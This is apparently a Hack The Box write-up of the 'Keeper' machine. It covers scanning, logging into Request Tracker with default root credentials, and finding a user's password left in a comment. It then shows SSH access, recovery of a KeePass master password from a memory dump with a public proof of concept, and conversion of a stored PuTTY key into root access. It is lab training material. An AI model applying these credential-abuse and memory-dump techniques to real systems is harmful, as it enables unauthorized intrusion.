 ![Pasted image 20230815085357](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/8bffcd8c-b771-437d-966b-2f6b99a26148)

# Enumeration
nmap scan:
```
Nmap scan report for 10.129.208.137
Host is up (0.086s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
|_  256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Two ports open: 22 (not likely) and 80 (http)

Checking the website, I can see that there is a link asking me to go to ticketets.keeper.htb/rt/ so now I have a hostname for /etc/hosts as well as a subdomain. 

# Foothold

Going to the site shows a login:

![Pasted image 20230815090351](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/22ecb299-ad85-4380-ac8e-5be51b43372d)

Given the difficulty of the box, this is likely my point of entry.

Tried a few XSS vulnerabilites that I read about, but they don't seem to work. would probably need to find more functionality for this site before that, but maybe I can find the default credentials?
Default password for root is still in place and am able to log in:
```
username: root
password: password
```

From here I can see that there is a single ticket that was already created previously. It talks about a crash and log files for it being included. The admin makes mention of removing the attachment after saving for security reasons... 
Checking the original ticket email, I get a user named `Lise` and another possible username of `Inorgaard`

It also mentions an issue with keepass client on Windows. This is a password storage program like lastpass or similar apps. Looks pretty bare bones overall. 

After some digging around in the web interface, I can view users and their comments. The admin left a password for the user in the comments. 

```
username: lnorgaard
password: Welcome2023!
```

Trying to use these credentials for ssh:
```
┌─[eu-release-1]─[10.10.14.73]─[htb-th1stle@htb-4hana8jksq]─[~]
└──╼ [★]$ ssh lnorgaard@10.129.208.137
The authenticity of host '10.129.208.137 (10.129.208.137)' can't be established.
ECDSA key fingerprint is SHA256:apkh696g2/uAeckIXd6eFvgmvmPqoEj41w4ia45OfrI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.208.137' (ECDSA) to the list of known hosts.
lnorgaard@10.129.208.137's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ pwd
/home/lnorgaard
lnorgaard@keeper:~$ cat user.txt 
4XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX2
lnorgaard@keeper:~$ 
```
Tasty user flag!

# Priv-Esc
Within the home directory is a zip file. 
Extracting the zip file gives me two new files:
```
-rwxr-x--- 1 lnorgaard lnorgaard 253395188 May 24 12:51 KeePassDumpFull.dmp
-rwxr-x--- 1 lnorgaard lnorgaard      3630 May 24 12:51 passcodes.kdbx
```
Looks like these are files from KeePass. Researching these file names, the `.kdbx` file is the backup of the password vault essentially and the`.dmp` file is a snapshot of the running process as it crashed. The dmp file might contain passwords for the vault itself. Unfortunately it contains a lot of junk characters that make it nearly impossible to sort through even with the strings command. I'll need to dig around to see how I can open it. 
I did find a poc program on github that might do the trick: 
https://github.com/CMEPW/keepass-dump-masterkey

It did come back with something strange:

![Pasted image 20230815102451](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/79bf4bd9-1a24-4b97-826c-779d50c3db4e)

Looks like it contains special characters... I did see that the user was Danish so it might be using nordic characters. 

After some googling, I get a Danish berry pudding called Rødgrød Med Fløde

That might be the password for the kdbx file.

On a windows machine, I installed KeePass and opened the file. The password was, `rødgrød med fløde` with the special characters. 
> Unrelated, but looks to be a Danish berry pudding. Lovely!


Root password looks to be `F4><3K0nd!`, but doesn't work to SSH....

Inside the KeePass notes section is an RSA private key file. I'll need to make an RSA key using this private key text and then I should be able to SSH into the box as root!
The key is for PuTTY RSA and not OpenSSH. Putty does have a tool called Puttygen that can convert it, but the private key is configured using a newer standard and the repository on my linux box isn't current enough to support it... boo. 
I need to use putty key generator to convert it to something the version on linux can use as it is written in version 3 while the linux distro version is version 2. Thankfully this can be done on the windows machine as I can just grab the latest version from the main website very easily. Once I convert it from version 3 to 2, I exported it to my linux machine to convert. 
From there I used the following command to convert it from putty ssh key to openssh key:
```bash
$ puttygen id_rsa.ppk -O private-openssh -o id_rsa

$ chmod 600 id_rsa
```

Now I should be able to ssh as root:
```
$ ssh root@keeper.htb -i id_rsa
The authenticity of host 'keeper.htb (10.129.208.137)' can't be established.
ECDSA key fingerprint is SHA256:apkh696g2/uAeckIXd6eFvgmvmPqoEj41w4ia45OfrI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'keeper.htb' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
root@keeper:~# 
```

That's root!
